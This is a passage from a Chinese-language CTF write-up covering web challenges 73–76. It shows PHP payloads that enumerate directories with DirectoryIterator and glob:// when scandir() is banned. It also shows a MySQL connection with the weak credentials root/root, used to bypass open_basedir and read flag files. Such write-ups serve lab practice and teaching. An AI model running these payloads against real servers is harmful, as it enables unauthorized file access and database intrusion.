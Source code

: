 ## web73

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208091604835.png)

/flagc.txt

竟然可以直接包含了...

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208091609674.png)

## web74

`scandir()` 被 ban 了

换成 DirectoryIterator

```php
$a = new DirectoryIterator("glob:///*");
foreach($a as $f){
    echo($f->__toString().'<br>');
}
die();
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208091612007.png)

然后 include 读取 flag

## web75

DirectoryIterator + glob:// 列目录

flag 在 /flag36.txt, include 包含失败, 存在 open_basedir 限制

hint 提示是 mysql 弱口令连接, 用 `load_file()` 读文件...(???)

```php
$dbh = new PDO('mysql:host=127.0.0.1;dbname=mysql','root','root');
foreach ($dbh->query('show databases;') as $row){
	var_export($row);
}
die();
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208091629329.png)

读文件

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208091630009.png)

## web76

/flag36d.txt
